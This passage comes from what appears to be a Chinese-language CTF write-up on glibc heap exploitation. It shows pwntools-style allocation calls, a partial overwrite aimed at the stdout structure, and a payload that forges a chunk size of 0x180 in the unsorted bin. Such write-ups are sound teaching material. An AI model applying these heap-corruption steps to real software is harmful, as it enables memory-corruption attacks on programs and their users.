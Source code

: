 ‍

```plain
add(0x70,'a')#let the fd pointer of unsorted bin local tcache bin

    add(0x80,'a')

    add(0x90,'\xa0\x46')#stdout struct
```

申请不同于 0x100 大小的堆块来分割 unsortedbin

[![](assets/1700186924-57a7abd74b89723c0318a2e9a206cf75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162927-415b31b8-845a-1.png)

[![](assets/1700186924-c8ffd5feab285756e33e1c022c16edcd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162931-4393a3ac-845a-1.png)

‍

```plain
payload=p64(0xdeadbeef)*18+p64(0)+p64(0x180)
    add(0x100,payload)#tamper size of unsorted bin
```

原 chunk1 剩余的部分杯篡改为 0x180 大小

我们先前对 chunk4 的布置，伪造的 prev\_size 和 size
